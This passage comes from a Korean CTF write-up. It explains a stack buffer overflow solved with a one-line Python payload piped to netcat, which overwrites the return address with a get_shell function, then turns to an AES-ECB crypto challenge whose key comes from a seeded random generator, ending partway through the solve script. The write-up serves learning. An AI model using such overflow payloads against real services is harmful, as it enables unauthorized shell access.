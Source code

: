 <br>

---

![Image](https://blog.kakaocdn.net/dna/8HFDB/btsKLf6ubM1/AAAAAAAAAAAAAAAAAAAAAFTRevOOVIriYNjuJQrOC4ArRZTcZAPp-UEd7I2QjnVc/img.png?credential=yqXZFxpELC7KVnFOS48ylbz2pIh7yKj8&expires=1751295599&allow_ip=&allow_referer=&signature=XDTTnoc8z%2BcvuUMZyHoYnRA4tFQ%3D)

문제 설명에도 힌트가 있는데 pwndbg로 주소값들 확인해보면 48만큼 거리차 나니까 48 길이 쓰레기값 보내고 `get_shell` 주소 덮으면 된다.  

pwn 파이썬 모듈로 하려고 했는데 자꾸 안 되서 그냥 직접 인라인으로 페이로드를 보내주었다.  

```bash
(python3 -c "import sys; sys.stdout.buffer.write(b'A'*0x48+b'\xa8\x12\x40\x00\x00\x00')";cat) | nc.rbp.rip 9006
```

<br>

---

### Crypto
#### 쿠가 가져간 열쇠  

청심대에 앉아 AES 암호 문제를 풀고 있었는데 쿠가 key를 가져가버렸어요. 쿠를 쫓아가 key를 얻어 문제를 풀어주세요.  

<br>

---

```python
secret_key = bytes([rnd.randint(0, 2**8) for _ in range(32)])


with open('flag.txt', 'rb') as file:
    data = file.read()
secret_info = data

def result(info, secret_key):
    encryptor = AAEESS.new(secret_key, AAEESS.MODE_ECB)
    encrypted = encryptor.encrypt(Padding.pad(info, AAEESS.block_size))
    with open('result.txt', 'w') as file:
        file.write(encrypted.hex())

result(secret_info, secret_key)
```

그냥 간단한 AES 문제이다.  

<br>

---

```python
import importlib
import random as rnd

AAEESS = importlib.import_module('Crypto.Cipher.AES')
Padding = importlib.import_module('Crypto.Util.Padding')

rnd.seed('''

@@@

''')
secret_key = bytes([rnd.randint(0, 2**8) for _ in range(32)])

reselt = "6b8204ab9f4924b96ff2eaa4c3c7e85fd6151b34f2c558434c4f610d7a4c066e"

from Crypto.Cipher import AES
from Crypto.Util import Padding
```